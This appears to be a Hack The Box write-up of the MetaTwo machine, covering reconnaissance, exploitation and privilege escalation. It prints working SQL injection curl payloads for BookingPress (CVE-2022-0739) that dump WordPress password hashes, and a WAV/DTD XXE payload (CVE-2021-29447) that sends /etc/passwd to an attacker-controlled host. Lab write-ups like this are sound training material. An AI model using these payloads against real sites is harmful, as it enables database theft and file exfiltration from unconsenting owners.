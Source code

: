 # MetaTwo Writeup - by Thammanant Thamtaranon  
- MetaTwo is an easy Linux-based machine hosted on Hack The Box.

## Reconnaissance  
- I started with a full TCP port scan including service/version detection and OS fingerprinting:  
  `nmap -A -T4 -p- 10.10.11.186`  
![Nmap_Scan](Nmap_Scan.png)  
- The scan showed multiple open ports:  
  - 21 (FTP)  
  - 22 (SSH)  
  - 80 (HTTP)  
  - 25764 (Unknown)  
  - 52677 (Unknown)  
- We then added `metapress.htb` to `/etc/hosts` for proper hostname resolution.

## Scanning & Enumeration  
- I tried connecting to FTP, but it did not allow anonymous login.
- We attempted directory brute-forcing using `dirsearch`, but it timed out, similar to `gobuster`.  
- Using Burp Suite to inspect requests, we discovered a plugin `bookingpress` version 1.0.10.  
![Plugin](Plugin.png)

## Exploitation  
- We researched BookingPress 1.0.10 and found **CVE-2022-0739**, an Unauthenticated SQL Injection vulnerability.  
- Following the PoC, we first identified the `_wpnonce` value.  
![Nonce](Nonce.png)  
- We then executed a crafted request to extract database version information and confirmed SQL Injection worked.
```bash
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=<_wpnonce_value>&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
```
![Version](Version.png)  
- Next, we extracted user credentials from the database, finding users `admin` and `manager`.
```bash
curl -s 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=<_wpnonce_value>&category_id=33&total_service=-7502) UNION ALL SELECT user_login,user_email,user_pass,1,2,3,4,5,6 from wp_users-- -'
```
![Credentials](Credentials.png)  
- We saved the hashes and cracked them using John the Ripper.  
![Manager](Manager.png)  
- Using the cracked credentials, we logged in as `manager` in WordPress.  
- The WordPress version was 5.6.2. Research revealed **CVE-2021-29447**, an XXE vulnerability when uploading WAV audio files with crafted metadata.  
- We created a malicious `payload.wav` and corresponding DTD file to exfiltrate `/etc/passwd`.
```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM "http://10.10.16.11:8000/xx3.dtd">%remote;%init;%trick;]>\x00' > payload.wav
```
```bash
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://<attacker_ip>:8000/?leak=%file;'>">
``` 
![PASSWD1](PASSWD1.png)  
- Decoding the returned data confirmed the user `jnelson`.
```bash
echo '<BASE64_DATA>' | base64 --decode | php -r 'echo zlib_decode(file_get_contents("php://stdin"));'
```
![PASSWD2](PASSWD2.png)  
- Attempting SSH initially failed, so we inspected the WordPress configuration and found the FTP credentials.  
![WP_Config1](WP_Config1.png)  
![WP_Config2](WP_Config2.png)  
- Using the credentials, we connected via FTP.  
![FTP](FTP.png)  
- We also discovered hardcoded credentials in `send_email.php`.  
![Jnelson_Cred](Jnelson_Cred.png)  
- Using these, we SSH’ed into the machine as `jnelson` and obtained the user flag.  
![Jnelson](Jnelson.png)

## Privilege Escalation  
- Listing files revealed a hidden directory `.passpie`.  
- Inside `/.passpie/ssh`, we found `root.pass`, which required a passphrase.  
- We downloaded `.keys` to our machine, extracted the private key block into `private.key`, and ran `gpg2john private.key > pgp.hash`, followed by `john --wordlist=/usr/share/wordlists/rockyou.txt pgp.hash`.  
![Cracked](Cracked.png)  
- On the target machine, we executed `passpie export ../passwords.txt` to extract credentials.  
- Finally, using `su root` with the retrieved password, we gained a root shell and captured the root flag.  
![Root](Root.png)
